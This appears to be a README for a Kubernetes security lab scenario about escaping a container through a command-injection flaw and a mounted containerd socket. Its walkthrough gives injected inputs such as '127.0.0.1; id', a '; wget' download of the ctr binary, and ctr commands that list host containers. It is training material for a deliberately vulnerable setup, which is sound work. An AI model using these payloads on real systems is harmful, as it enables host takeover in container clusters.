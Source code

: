 # Scenario: ContainerD Abuse

## Prerequisites

- Playground One EKS EC2 Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS EC2 Cluster including the Scenarios up and running:

```sh
pgo --apply eks-ec2
pgo --apply scenarios-ec2
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but heavily adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

By the end of the scenario, you will understand and learn the following:

- You will learn to test and exploit the container UNIX socket misconfigurations
- Able to exploit container and escape out of the container
- Learn about ContainerD
- Learn common misconfigurations in pipelines and CI/CD build systems

## The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit a very similar misconfiguration and gain access to the host system by escaping out of the container.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_health_check>`

## Goals

The goal of this scenario is to escape out of the running container to the host system where the container is running and able to access and perform actions on the host system.

> ***Tip:*** If you are able to obtain containers running in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation, e.g. spinning up an additional container.

### Hints

<details>
<summary>Click here</summary>

✨ Do you know how to run multiple commands in Linux?
<br><br>
The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌
<br><br>
✨ Able to run system commands, not sure how to access containers?
<br><br>
Identify the mounted UNIX socket volume, and use `ctr` binary to communicate with that with <b>-H</b> flag 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain.
<br><br>
It contains `/containerd.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

Wow! We can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket via gRPC.
<br><br>
Note: We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [official containerd binary](https://containerd.io/downloads/), or a simple `grpcurl` program as well.
<br><br>
The easiest way to interact with containerd is to use the `ctr` command. We can download the official `ctr` static binary from the internet [https://containerd.io/downloads/](https://containerd.io/downloads/).
<br><br>
Then download the appropriate containerd binary to the container. We can use the following command (takes some time, be patient).

```bash
; wget https://github.com/containerd/containerd/releases/download/v1.6.20/containerd-1.6.20-linux-amd64.tar.gz -O /tmp/containerd-1.6.20.tgz
```

We can extract the binary from the `containerd-1.6.20.tgz` file so that we can use that to talk to the UNIX socket

```bash
; tar -xvzf /tmp/containerd-1.6.20.tgz -C /tmp/ bin/ctr
```

Now we can access the host system by running the following containerd commands with passing `containerd.sock` containerd's gRPC server. Let's check what is running from kubernetes.

```bash
; /tmp/bin/ctr -a /custom/containerd/containerd.sock -n=k8s.io containers ls
```

Hooray 🥳, now we can see that it has a lot of containers are running in the host system. We can now use different ctr commands to gain more access and further exploitation.
<br><br>
🎉 Success 🎉
<br><br>
If you'd like to create containers now, try it. Be beware of the fact that the design of containerd is that clients should be local to the daemon. Running a client in a container is effectively non-local without some very specific configuration (which will vary depending on what you are trying to do).

</details>

## References

- [Interacting with containerd runtime for kubernetes](https://www.vxav.fr/2021-09-13-interacting-with-containerd-runtime-for-kubernetes/)
